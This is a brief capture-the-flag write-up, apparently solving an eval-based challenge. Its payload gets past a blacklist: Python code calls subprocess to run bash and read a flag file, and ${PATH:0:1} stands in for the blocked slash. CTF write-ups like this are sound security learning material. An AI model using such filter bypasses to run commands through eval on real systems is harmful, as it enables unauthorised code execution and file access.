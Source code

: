 # made by Mel

it's essentially an eval statement, but with some blacklisting.

this was the payload i used. it bypassed slashes by using ${PATH:0:1} (the path variable substringed to just be a slash), along with some extra funnies

`__import__("subprocess").check_output(["bash","-c","cat ${PATH:0:1}flag*"])`
